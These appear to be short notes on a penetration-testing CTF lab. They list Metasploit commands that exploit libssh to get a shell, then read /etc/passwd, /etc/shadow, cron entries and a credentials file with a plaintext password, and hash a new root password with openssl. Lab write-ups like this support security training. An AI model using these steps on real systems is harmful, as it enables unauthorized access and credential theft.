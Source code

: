 Host & Network Penetration Testing: Post-Exploitation CTF 1

`msfconsole`
`search libssh`
`use 0`
`set SPAWN_PTY true`
`run`

get session 1

`sessions -i`
`sessions 2`

focus etc/passwd 
FLAG1_e28af4baaf6b442ba1efd89944a52564:x:1001:984::/home/FLAG1_e28af4baaf6b442ba1efd89944a52564:/usr/bin/bash

focus etc/group
FLAG2_d4e4779524f04939885edb088992ca3b

focus etc/cron.d
cron.d  FLAG3_ffc588b029fa4f328e6c1ea7583f06e9


`cat credentials.txt`
`john:Pass@john123`

`cat /etc/shadow`
root:*:19977:0:99999:7:::
ไม่มีรหัสผ่าน

openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

เปลี่ยน password 
